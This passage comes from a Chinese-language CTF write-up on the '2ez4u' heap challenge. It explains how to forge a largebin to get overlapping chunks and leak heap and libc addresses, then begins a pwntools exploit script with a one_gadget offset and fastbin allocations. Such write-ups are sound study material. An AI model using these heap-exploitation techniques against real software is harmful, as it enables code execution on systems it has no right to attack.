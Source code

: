 &nbsp;&nbsp;&nbsp;&nbsp;<font size=2>程序流程分析完了，color，num，value什么的都没什么实质用途，唯一有可能的就是会把largebin的bk和fd和fd_nextside给替代掉，但edit的时候如果输入的color，num，value的范围在**判断的范围之外则实际上不会有改变**，则可以绕过覆写。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>因为没有溢出，再加上想要leak libc的基地址基本都需要chunk overlapping，所以这里就要用**伪造largebin**的方式进行overlap，所以我们一步一步做，首先leak出堆地址:</font></br>

```python

from pwn import *

DEBUG=0

if DEBUG==1:
    context.log_level='debug'

p=process('./2ez4u')
libc=ELF('./libc.so')

one_gadget=0x4526a
top_addr=0x3c4b50
chunk_base=0
libc_base=0

sd=lambda c : p.send(c)
sl=lambda c : p.sendline(c)
rv=lambda c : p.recvuntil(c)
sa=lambda a,c : p.sendafter(a,c)
sla=lambda a,c : p.sendlineafter(a,c)


def add(size,content=''):
    sla('choice: ','1')
    sla('1:green):','0')
    sla('?(0-999):','0')
    sla('(0-16):','0')
    sla('(1-1024):',str(size))
    sla('apple:',content)

def dele(index):
    sla('choice: ','2')
    sla('(0-15):',str(index))

def edit(index,content=''):
    sla('choice: ','3')
    sla('(0-15):',str(index))
    sla('green):','2')
    sla('(0-999):','1000')
    sla('(0-16):','17')
    sla('apple:',content)

def show(index):
    sla('choice: ','4')
    sla('(0-15):',str(index))

# alloc servel fastbin
# then we will fake the large bin here
# so we will get chunks overlapped
add(0x60)   # 0
add(0x60)   # 1
add(0x60)   # 2
add(0x60)   # 3
add(0x60)   # 4
add(0x60)   # 5
add(0x60)   # 6
add(0x60)   # 7
```